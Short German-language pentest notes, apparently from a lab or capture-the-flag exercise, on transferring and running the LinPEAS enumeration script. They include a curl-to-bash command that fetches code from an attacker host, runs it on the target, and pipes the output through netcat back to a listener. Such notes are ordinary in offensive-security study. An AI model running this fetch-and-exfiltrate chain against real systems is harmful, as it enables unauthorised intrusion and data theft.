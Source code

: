 # LinPEAS Transfer
## Freigabe auf dem Attacker System
```bash
──(fuchs㉿kali)-[~]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Ausgabedatei Empfangen
```bash
┌──(fuchs㉿kali)-[~]
└─$ nc -lvnp 7891 > linPEAS.out
listening on [any] 7891 ...
```

## Hochladen und ausführen von linPEAS
```bash
$ curl 10.10.14.4:8000/linpeas.sh | bash | nc 10.10.14.4 7891
```
